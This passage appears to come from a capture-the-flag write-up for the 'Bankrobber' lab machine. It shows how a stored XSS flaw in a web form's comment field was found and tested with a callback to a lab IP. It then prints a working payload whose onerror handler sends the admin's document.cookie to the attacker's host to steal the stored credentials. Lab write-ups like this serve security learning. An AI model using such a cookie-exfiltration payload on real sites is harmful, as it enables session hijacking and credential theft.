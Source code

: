 After submitting some garbage information in this form, the following alert pops up:

![alert](./bankrobber/alert.png)

This looks like XSS? Maybe an admin account is looking at each submission. Test out the XSS theory in the form's comment field with a remote IP HTML `img` tag:

```html
<img src="http://10.10.14.20/">
```

And wait for the callback using a Python3 HTTP server:

![xss_test](./bankrobber/xss_test.png)

So there is an XSS vulnerability! Looking at the cookies in a broswer's developer pannel for a user session shows username & password cookies that are base64 encoded and not `HttpOnly`:

![cookies](./bankrobber/cookies.png)

Next use the following payload for the XSS to get the admin's credentials:

```html
<img id="bubba" 
     src="http://10.10.14.20/nope.png"
     onerror="document.getElementById('bubba').src='http://10.10.14.20/?c='.concat(encodeURIComponent(document.cookie));"
>
```
